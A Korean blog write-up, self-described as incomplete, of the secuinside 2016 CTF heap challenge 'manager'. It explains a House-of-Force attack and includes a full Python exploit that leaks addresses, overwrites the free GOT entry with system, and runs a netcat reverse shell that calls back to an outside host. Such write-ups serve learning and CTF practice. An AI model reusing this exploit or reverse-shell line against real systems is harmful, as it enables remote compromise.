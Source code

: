 ```yaml
---
layout: post
title: secuinside 2016 manager writeup (incomplete)
category: writeup
---
```


KR version

이번에는 끝까지 풀지를 못해서 ㅠㅠ flag를 얻지는 못했다.
manager 문제는 allocation simulator 역할을 하는 바이너리가 주어져있고,
힙을 조작해서 취약점을 만드는 문제이다.

분석을 해 보면, while문을 통해 16바이트짜리 쿼리를 계속 보내는 것을 알 수 있다.
|cmd len check index| (각 4바이트) 형태로 되어있고, 

check = 15

cmd = 0~5 (0 : init, 1 : write, 2 : malloc, 3 : realloc, 4 : print, 5 : free)

index = 0 ~ 9


취약점은 크게 두가지가 있다. 

1. malloc에서 길이를 구조체에 저장하는데, 실제 malloc된 크기는 4096이 아니면서 구조체에 4096을 저장할 수 있다. (buffer overwrite가능)

2. realloc에서 음수 크기가 가능하다.

두 취약점을 조합해 House-of-force 기법을 쓸 수 있다. 하지만 릭이 없어서 어디에 write를 할 지 모르는데, House-of-force는 offset을 기반으로 움직이기 때문에 힙의 앞부분으로도 덮어쓸 수 있다. 이것을 이용하여 처음의 40byte 구조체를 덮어쓰면, malloc할 때의 주소를 읽을 수 있고, heap_base를 찾을 수 있다.

heap_base와 binary base가 0x???000 정도 차이나는 것을 이용(차이는 컴퓨터마다 일정) 하여 \x7fELF가 나오는 부분을 찾아 binary base를 계산한다.

이후 free의 pointer를 system으로 바꾸고, 힙에 "nc myserver 10291 | /bin/sh | nc myserver 10292" 처럼 reverse shell을 만든 후 free를 해주면 완성!

```python
import pwnbox
import struct

#p = pwnbox.pipe.SocketPipe('chal.cykor.kr',22222)
p = pwnbox.pipe.SocketPipe('127.0.0.1',22222)


def query(command,length,selector):
    p.write(struct.pack("<IIII",command,length,15,selector))

def init_cell(num):
    query(0,0,num)

def set_cell_len(num,len_):
    query(2,len_,num)

def write_cell(num,data):
    query(1,0,num)
    p.write(data)

def read_cell(num):
    query(4,0,0)
    p.write(struct.pack("<I",num))

def free_cell(num):
    query(5,0,0)
    p.write(struct.pack("<I",num))

def realloc_cell(num,len_,data):
    query(3,0,0)
    p.write(struct.pack("<II",len_,num))
    p.write(data)

def fail():
    p.write("\x00"*16)

def a_read_byte(addr):
    spayload = ""
    spayload += struct.pack("<q",-1)
    spayload += struct.pack("<i",-1) # len
    spayload += struct.pack("<i",-1)
    spayload += struct.pack("<q",addr) # buf
    spayload += struct.pack("<i",-1) # cmd
    spayload += struct.pack("<i",-1) # chk
    spayload += struct.pack("<i",1) # buf_set
    spayload += struct.pack("<i",-1)
    realloc_cell(0,0x100,"\xff"*0x10 + spayload.ljust(0xf0,'\x00'))
    read_cell(3)
    p.read_until('3=> ')
    retVal = p.read_byte(1)
    if retVal == '\n' and p.read_byte(1) == '\n':
        retVal = '\x00'
    return retVal

def a_write(addr,data):
    spayload = ""
    spayload += struct.pack("<q",-1)
    spayload += struct.pack("<i",len(data)) # len
    spayload += struct.pack("<i",-1)
    spayload += struct.pack("<q",addr) # buf
    spayload += struct.pack("<i",-1) # cmd
    spayload += struct.pack("<i",-1) # chk
    spayload += struct.pack("<i",1) # buf_set
    spayload += struct.pack("<i",-1)
    realloc_cell(0,0x100,"\xff"*0x10 + spayload.ljust(0xf0,'\x00'))
    realloc_cell(3,len(data),data)


def a_read(addr,len_):
    x = ""
    for i in range(len_):
        x = x + a_read_byte(addr+i)
    return x

p.read_until('alloc manager!')

init_cell(0)
init_cell(3)
init_cell(5)
init_cell(6)
init_cell(7)
set_cell_len(5,0x180)

set_cell_len(5,4097)

write_cell(5,('A'*0x188+struct.pack("<Q",0xffffffffffffffff)).ljust(0x1000))

realloc_cell(3,4294966528,"a") # -768

#p.interact()

realloc_cell(0,0x100,"\xff"*0x20)
#write_cell(0,"\xff"*0x10+spayload.ljust(0xf0,'\x00'))

read_cell(0)
p.read_until('0=> ')
x = p.read_byte(0x20+8)

heap_base = struct.unpack('<Q',x[0x20:])[0] & 0x0000fffffffff000

print "Heap base : %x" % heap_base

bin_base = heap_base - 0x1d0b000 # in local machine

got_malloc = bin_base + 0x2040E8
got_free = bin_base + 0x204018

libc_malloc = struct.unpack("<Q",a_read(got_malloc,8))[0]

print "%x" % libc_malloc
# libc (in local machine)
libc_base = libc_malloc - 0x82750
libc_system = libc_base + 0x46640
print "%x" % libc_base
a_write(got_free, struct.pack("<Q",libc_system))

print "%x" % struct.unpack("<Q",a_read(got_free,8))[0]

a_write(heap_base+0x1000,"nc ssh.goatskin.xyz 10291 | /bin/sh | nc ssh.goatskin.xyz 10292\x00")


free_cell(3)


p.interact()
```

안타까운 점은 문제서버 libc의 malloc과 다르기 때문인지 offset이 안맞아서 서버 익스는 못했다...